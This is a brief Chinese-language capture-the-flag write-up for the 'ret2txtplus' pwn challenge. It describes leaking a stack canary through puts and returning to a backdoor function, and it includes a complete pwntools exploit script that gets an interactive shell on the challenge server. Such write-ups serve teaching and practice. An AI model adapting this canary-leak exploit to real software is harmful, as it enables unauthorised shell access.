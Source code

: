 # ret2txtplus

~~当我在想为什么题目会多一个e时我自己就多输了1个e~~

## 文件分析

下载`ret2txtp`, NX on, PIE off, Canary on, RELRO no  
ghidra分析为64位程序

## 逆向

通过溢出canary的第一个字符，可以借助puts把剩下的canary打印出来，
因为没有pie，直接返回到`back_door`即可（需要ret补rsp）

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10038)
sh.sendline(b'0'*0x17 + b'.') # '\n' override 1st byte of canary
sh.recvuntil(b'.\n')
data = sh.recvline()
canary = u64(b'\0' + data[:7])
sh.sendline(b'0'*0x18 + p64(canary) + b'0'*8 + p64(0x4007a6) + p64(0x400761)) # ret; back_doorAddr
sh.interactive()
```

Done.
